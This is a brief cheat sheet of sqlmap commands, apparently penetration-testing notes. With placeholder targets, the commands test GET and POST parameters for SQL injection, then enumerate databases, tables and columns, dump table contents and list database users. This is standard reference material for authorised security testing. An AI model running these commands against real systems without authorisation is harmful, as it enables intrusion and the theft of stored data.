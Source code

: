 ### Source
https://github.com/sqlmapproject/sqlmap  

### Scan GET parameter, -u URL, -p parameter
```
sqlmap -u http://<domain>/<path>.php?<var>=1 -p <var>
```

### Scan POST parameter (save Burp Request to file), -r read file
```
sqlmap -r <file> -p <var>
```

### Or mark *var* within burp request before pasting to file
```
sqlmap -r <file>
```

### Once you found a SQL injection - get the database names
```
sqlmap -r <file> -p <var> --dbs
```

### Get the tables of a database, -D database
```
sqlmap -r <file> -p <var> --tables -D <database>
```

### Get the columns of a specific table, -T table
```
sqlmap -r <file> -p <var> --columns -D <database> -T <table>
```

### Get the content of the columns
```
sqlmap -r <file> -p <var> --dump -D <database> -T <table>
```

### Get database system users
```
sqlmap -r <file> -p <var> --users
```

### Get current database system user
```
sqlmap -r <file> -p <var> --current-user
```

